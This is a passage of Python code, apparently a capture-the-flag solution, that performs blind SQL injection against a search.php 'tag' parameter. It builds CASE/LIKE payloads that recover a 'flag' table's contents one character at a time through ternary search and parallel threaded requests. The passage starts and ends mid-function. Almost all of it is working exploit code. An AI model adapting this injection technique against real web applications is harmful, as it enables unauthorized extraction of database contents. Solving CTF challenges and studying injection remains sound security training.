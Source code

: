 ``` python
    if s == 0:
      MR = L + 1

    group = [
      char_set[L:ML],
      char_set[ML:MR],
      char_set[MR:R+1]
    ]

    conditions = []
    for i in range(0, 3):
      if len(group[i]) == 0:
        conditions.append("1=2")
        continue
      arr = [f"(content like '{prefix}{chr(92) + c if c == '_' else c}%')" for c in group[i]]
      conditions.append(" or ".join(arr))

    payload = f'''
    (select case
      when ({conditions[0]}) then 1  
      when ({conditions[1]}) then 2  
      when ({conditions[2]}) then 5
      else 10
    end from flag)
    '''

    print(f"For {index} trying", group)

    response = requests.get(f'{host}/search.php?tag={encode(payload)}')
    if not response.ok:
      print('error')
      print(response.text)
      print(payload)
      return False

    data = json.loads(response.text)
    if len(data) == 0:
      return False

    if len(data) == 2:
      R = ML
      if len(group[0]) == 1:
        return group[0]
      
    else:
      if data[0]["name"] == "home1":
        L = ML
        R = MR
        if len(group[1]) == 1:
          return group[1]
      else:
        L = MR
        if len(group[2]) == 1:
          return group[2]

def run():
    length = 15
    ans = [None] * length
    with concurrent.futures.ThreadPoolExecutor(max_workers=length) as executor:
        futures = {executor.submit(get_char, i): i for i in range(length)}
        for future in concurrent.futures.as_completed(futures):
            index = futures[future]
            data = future.result()
```